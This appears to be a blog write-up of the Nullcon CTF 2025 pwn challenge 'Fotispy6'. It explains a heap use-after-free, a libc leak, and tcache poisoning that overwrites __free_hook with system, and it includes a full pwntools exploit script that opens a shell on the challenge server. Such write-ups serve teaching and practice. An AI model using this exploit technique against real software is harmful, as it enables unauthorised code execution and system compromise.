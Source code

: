+++
author = "Velobobo"
title = "NullConCTF 2025 - Fotispy6"
date = "2025-09-06"
description = ""
draft = false
slug = "nullcon-2025-chunkythreads"
ctfs = ["Nullcon-2025"]
tags = [
    "heap",
    "ctf",
]
categories = [
    "pwn"
]

+++

# Fotispy6 – Nullcon CTF 2025

## Overview 
This binary was a classic heap-based program where we could add multiple songs and comments, as well as view and delete them.
Protections enabled were: PIE, Canary, NX, and Full RELRO.
Initially, I spent quite some time trying to figure out the exploitation strategy. Then, I randomly checked the libc version and noticed it was 2.31 so there was no pointer mangling(safe linking) in tcache and `__free_hook` function was also present in this libc.

## Reversed Code

main
 {{< figure src="main.png" alt="main" width="500" >}}

add
 {{< figure src="add.png" alt="add" width="500" >}}

edit
 {{< figure src="edit.png" alt="edit" width="500" >}}

view
 {{< figure src="view.png" alt="view" width="500" >}}

delete
 {{< figure src="free.png" alt="free" width="500" >}}

## Exploitation Plan

As the code doesn’t remove the pointer from the list after freeing, there is a UAF vuln. I first leaked libc through an unsorted bin.

```python
addsong(b'a',1300) #0  
addsong(b'b',1300) #1  
delete(0)  
view(0)  
leak=u64(p.recvline()[:-1].ljust(8,b'\x00'))  
log.critical(f"leak : {leak:#x}")  
libcbase=leak-0x1ecbe0  
libc.address=libcbase
```

`b` is a guard chunk so that when the first chunk goes into the unsorted bin it doesn’t get consolidated with the wilderness. After freeing the first chunk, its fd pointer contains the address of the main arena head, which is a libc address. So i leaked this and calculated the libc base.

Now my plan was to overwrite `__free_hook` with address of `system`. To write to __free_hook i needed to get its chunk from a malloc so I used tcache poisoning by changing the fd of a tcache chunk to point to `__free_hook`. Since there’s no safe-linking, I could directly overwrite the fd without mangling.
After getting the chunk , i wrote the address of `system` in `__free_hook` , so that whenever free is called it will call system with the same argument the free was called on.

```python
freehook=libc.symbols['__free_hook']  
system=libc.symbols['system']  
binsh=next(libc.search(b'/bin/sh'))  

addsong(b'c',8) #2  
addsong(b'd',8) #3  
delete(2)  
delete(3)  
edit(3,8,p64(freehook))  
addsong(b'e',8) #4  
addsong(p64(system),8) #5  
```

At last i just add another chunk with `/bin/sh` as its content which will act as an argument when free is called.

```python
addsong(b'/bin/sh',20) #6  
delete(6)
```

## Full Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./fotispy6_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
ld   = ELF("./ld-2.31.so", checksec=False)

context.binary = exe
#context.log_level = 'debug'

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("52.59.124.14", 5196)
    return r

def addsong(comment, size):
    p.sendlineafter(b'[~] Choice: ', b'2') 
    p.sendlineafter(b'[~] How long will the comment be: ', str(size).encode())
    p.sendlineafter(b'[~] Enter the comment: ', comment)

def edit(idx, newsize, comment):
    p.sendlineafter(b'[~] Choice: ', b'3') 
    p.sendlineafter(b'[~] Which song to you want to select: ', str(idx).encode())
    p.sendlineafter(b'[~] How long will the new comment be: ', str(newsize).encode())
    p.sendlineafter(b'[~] Enter the new comment: ', comment)

def view(idx):
    p.sendlineafter(b'[~] Choice: ', b'4')
    p.sendlineafter(b'[~] Which song to you want to select: ', str(idx).encode())
    p.recvuntil(b'[+] Here is your comment:\n')

def delete(idx):
    p.sendlineafter(b'[~] Choice: ', b'5')
    p.sendlineafter(b'[~] Which song to you want to select: ', str(idx).encode())

p = conn()

# Leak libc
addsong(b'a',1300) #0
addsong(b'b',1300) #1
delete(0)
view(0)
leak = u64(p.recvline()[:-1].ljust(8,b'\x00'))
log.critical(f"leak : {leak:#x}")
libcbase = leak - 0x1ecbe0
libc.address = libcbase
log.critical(f"libcbase : {libcbase:#x}")

freehook = libc.symbols['__free_hook']
system   = libc.symbols['system']
binsh    = next(libc.search(b'/bin/sh'))
log.critical(f"freehook : {freehook:#x}")
log.critical(f"system : {system:#x}")
log.critical(f"binsh : {binsh:#x}")

# Tcache poisoning
addsong(b'c',8) #2
addsong(b'd',8) #3
delete(2)
delete(3)
edit(3, 8, b''+p64(freehook))
addsong(b'e',8) #4
addsong(b''+p64(system),8) #5

# Trigger exploit
addsong(b'/bin/sh',20) #6
delete(6)

p.interactive()

```

## Result

{{< figure src="flag.png" alt="flag" width="500" >}}
